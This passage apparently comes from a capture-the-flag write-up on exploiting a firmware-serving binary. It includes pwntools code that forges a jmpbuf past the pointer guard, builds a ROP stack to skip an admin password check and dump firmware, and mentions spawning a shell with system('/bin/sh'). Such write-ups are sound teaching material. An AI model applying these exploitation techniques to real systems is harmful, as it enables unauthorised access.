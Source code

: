 ```python

# clear messages via password check
menu("B")
menu("A")
menu("R")
s.sendline(b"not-the-passwordnot-the-password")
menusync()
```

This gives us everything we need to fake our own `jmpbuf`. We can point the stack into one of the `msg` structures in order to get ROP, and freely use gadgets from libc or the binary. The first thing we do is to bypass the password check in the admin area to get the running firmware:

```python
new_jmpbuf = bytearray(leak)
new_jmpbuf[0x80:0x88] = p64(ptr_guard ^ (exe_base + 0x2da8)) # in retr_firmware
new_jmpbuf[0x90:0x98] = p64(ptr_guard ^ (exe_base + 0x159e0))
new_stack = flat([
    0, 0, 0, exe_base + 0x159e0 + 0x30, 0, 0, # handle_exc
    p32(5) + p32(4),
])
new_stack = new_stack.ljust(256)

# fill msgs
for i in range(9):
    bad_msg(b"a")

bad_msg(new_stack)

# insert extra msg, throw exception on msg size
menu("E")
menu("A")
sendint(999)

# insert one more to overlap jmpbuf, throw exception on crc to longjmp
bad_msg(new_jmpbuf)

s.recvuntil(b"Retrieving firmware ...\n")
s.interactive()
```

Here, we're jumping to 0x2da8, which is in the function that retrieves the firmware after the password check (at 0x2d9c). The specific address jumps to a point after the function has built a stack frame and stored the argument (x0 - pointer to `client_fd`) on the stack. So, our fake `jmpbuf` will contain a pointer to a fake stack frame that contains a pointer to a faked `client_fd` structure, allowing this function to work correctly.

When we run this first exploit ([`exploit.py`](files/stage2c/exploit.py)), it successfully reads the firmware and hexdumps it to us, resulting in the file [`firmware.bin`](files/stage2c/firmware.bin).

We can also use ROP to call `system("/bin/sh")` to obtain an interactive shell ([`exploit2.py`](files/stage2c/exploit2.py)):
